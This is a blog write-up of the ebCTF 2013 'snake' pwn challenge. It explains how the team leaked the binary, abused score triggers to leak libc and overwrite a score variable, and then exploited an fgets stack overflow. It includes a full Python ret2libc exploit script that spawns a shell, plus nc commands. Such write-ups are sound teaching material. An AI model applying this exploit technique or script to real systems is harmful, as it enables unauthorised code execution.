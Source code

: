 ```yaml
---
title: ebctf 2013 pwn 300 snake writeup
author: zTrix
layout: post
permalink: /ebctf-2013-pwn-300-snake-writeup/
categories:
  - CTF
  - writeup
---
```

It&#8217;s a snake game.

Playing it for a while, we find that w,s,a,d can control the snake in 4 directions, &#8220;enter&#8221; key will stop the snake, and b will start the game in single step mode.

The clue printed before game started is important, it says, `HIT (ALMOST) ANY KEY TO START GAME`, so there must be some key which will generate different output. After some try and fail, we find that &#8216;#&#8217; key will dump the binary file in hex code. This is the first breakthrough we got. Now we can disassemble the binary and play the game locally.

Using the binary file, we find a stack overflow vulnerability immediately, which is located at game exit, used to input the player&#8217;s name, exposed by function `fgets`. But the logic of the game shows we need a score larger than 313336, which is impossible to acquire by playing the game.

By reading the assembly of the binary, we got some more findings. The first discovery indicates that if we get a score equal to 666, the program will print out some memory layout information. The second discovery shows that, if we get 1221 score, the program will erase the last 4 wall of the game board by space. Furthermore, the memory location of the walls locate adjacently to that of the score variable.

Knowing above, we can compose a solution now. First, use some input sequence, we can eat 6 dots and get the libc.so base address in memory. Then we eat 6 more dots, the bottom wall will open a 4-bytes-wide door. Move snake outside the play field, and overwrite 4 bytes after the wall, the score variable will be large enough to pass the high score check.

[<img src="http://www.blue-lotus.net/wp-content/uploads/2013/06/1221.png" alt="" width="600" class="alignnone size-medium wp-image-634" />][1]

Now we just need to grab the shell using ret2libc. Calculate the system function offset and &#8220;/bin/sh&#8221; offset, using the offset provided by memory info printed. The final script is as follows, note that the system offset and &#8220;/bin/sh&#8221; offset need to be recalculated for different platforms.

    import struct
    
    f = open('fifo', 'w')
    
    def send(cmd):
        global f
        f.write(cmd)
        f.flush()
    
    send('b')
    s = 'd' * 28 + 's' * 3 + 'd' * 2 + 'w' * 5 + 'a' * 23 + 's' * 11 + 'd'* 27 + 'w' + 'w' * 3 + 'a' * 27 + 'w' * 5 + 'd' * 50 + 's' * 2 + 'a' * 38 + 's' * 11 + 'd' * 7 + 'w' * 7 + 'a' * 6 + 'w' * 9 + 'd' * 17 + 'd' * 2  + 'd' * 23 + 's' * 17 + 'd' * 6
    
    send(s)
    
    b = raw_input('please enter base address: ')
    
    ba = "base = 0x" + b
    print ba
    exec ba
    
    #base = 0xf75fe000
    g = 'A' * 140 + struct.pack('I', base + 0x3e6c0) + struct.pack('I', base + 0x3e6c0 - 0xd1d0) + struct.pack('I', base + 0x160cbf) + struct.pack('I', 10) + 'pwd\n'
    
    send(g)
    
    while True:
        send(raw_input('$ ') + '\n\n')
    
    raw_input("\npress any key to exit ...")
    

We used mkfifo to create a fifo file first. Then do the following:

    
    $ nc "ip" "port" < fifo
    $ python2 solve.py
      ... input the libc base address when it prints out.
    </pre>
    <p></p>
    Some solutions we seen write a lot of code to read server input and parse the libc base address, but it's much more easier to use pipe and input it manually. <img src='http://www.blue-lotus.net/wp-includes/images/smilies/icon_smile.gif' alt=':)' class='wp-smiley' /> 
    
    
    aay, cbmixx, kelwin contribute most of the work for solving this problem. Thanks very much!

 [1]: http://www.blue-lotus.net/wp-content/uploads/2013/06/1221.png